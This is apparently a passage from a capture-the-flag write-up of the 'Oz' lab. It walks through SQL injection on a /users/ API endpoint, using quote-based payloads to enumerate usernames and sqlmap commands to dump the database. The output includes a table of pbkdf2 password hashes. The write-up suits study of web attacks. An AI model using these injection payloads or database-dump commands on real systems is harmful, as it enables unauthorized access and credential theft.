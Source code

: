 When using a single quote character after the parameter, it resolves in an _500 Internal Server Error_:
```
GET /users/admin' HTTP/1.1
```
```
The server encountered an internal error and was unable to complete your request.  Either the server is overloaded or there is an error in the application.
```

It seems like that there is a **SQL Injection vulnerability**, which can be exploited to enumerate the database.

### SQL Injection

Enumerating the database manually:
```
GET /users/admin'%20or%201='1
```
```
{"username":"dorthi"}
```

Enumerating usernames:
```
GET /users/admin' or 1='1' limit 0,1-- -
GET /users/admin' or 1='1' limit 1,1-- -
GET /users/admin' or 1='1' limit 2,1-- -
GET /users/admin' or 1='1' limit 3,1-- -
(...)

# URL encoded:
GET /users/admin'%20or%201='1'%20limit%200,1--%20-
```
```
{"username":"tin.man"}
{"username":"wizard.oz"}
{"username":"coward.lyon"}
{"username":"toto"}
```

Saving the request as a file _(oz_webapi.req)_ and sending it to **SQLmap** to dump all contents of the databases:
```
sqlmap -r oz_webapi.req
```
```
sqlmap -r oz_webapi.req --dump
```

All contents of _ozdb_ get dumped and there are two tables with interesting information.

Contents of table _users_gbw_:
```                            
Table: users_gbw
[6 entries]
+----+----------------------------------------------------------------------------------------+-------------+
| id | password                                                                               | username    |
+----+----------------------------------------------------------------------------------------+-------------+
| 1  | $pbkdf2-sha256$5000$aA3h3LvXOseYk3IupVQKgQ$ogPU/XoFb.nzdCGDulkW3AeDZPbK580zeTxJnG0EJ78 | dorthi      |
| 2  | $pbkdf2-sha256$5000$GgNACCFkDOE8B4AwZgzBuA$IXewCMHWhf7ktju5Sw.W.ZWMyHYAJ5mpvWialENXofk | tin.man     |
| 3  | $pbkdf2-sha256$5000$BCDkXKuVMgaAEMJ4z5mzdg$GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY | wizard.oz   |
```